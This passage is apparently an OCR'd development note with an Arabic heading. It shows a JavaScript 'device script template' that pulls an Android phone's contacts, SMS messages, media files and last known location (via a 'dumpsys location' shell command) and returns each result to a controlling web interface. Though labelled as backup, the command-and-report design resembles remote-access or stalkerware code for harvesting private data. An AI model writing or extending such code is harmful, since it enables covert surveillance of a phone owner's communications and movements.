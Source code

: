 ### **ج) إصلاح بيانات الجهاز** (`web-interface/templates/device-script-template.js`)

#### **1. تحسين جميع الدوال:**
```javascript
// جهات الاتصال
async function backupContacts() {
    try {
        const contacts = await queryContentProvider('content://com.android.contacts/data');
        sendCommandResult('backup_contacts', 'success', {
            contacts: contacts,
            count: Array.isArray(contacts) ? contacts.length : 0,
            timestamp: Date.now()
        });
    } catch (e) {
        sendCommandResult('backup_contacts', 'error', e.message);
    }
}

// الرسائل النصية
async function backupSMS() {
    try {
        const sms = await queryContentProvider('content://sms');
        sendCommandResult('backup_sms', 'success', {
            messages: sms,
            count: Array.isArray(sms) ? sms.length : 0,
            timestamp: Date.now()
        });
    } catch (e) {
        sendCommandResult('backup_sms', 'error', e.message);
    }
}

// الوسائط
async function backupMedia() {
    try {
        const media = await queryContentProvider('content://media/external/file');
        sendCommandResult('backup_media', 'success', {
            media: media,
            count: Array.isArray(media) ? media.length : 0,
            timestamp: Date.now()
        });
    } catch (e) {
        sendCommandResult('backup_media', 'error', e.message);
    }
}

// الموقع
async function getCurrentLocation() {
    try {
        const location = await executeShellCommand('dumpsys location | grep "Last Known Locations"');
        const parsedLocation = parseLocationData(location);
        sendCommandResult('get_location', 'success', {
            location: parsedLocation,
            accuracy: parsedLocation.accuracy,
            timestamp: Date.now()
        });
    } catch (e) {
        sendCommandResult('get_location', 'error', e.message);
    }
}

```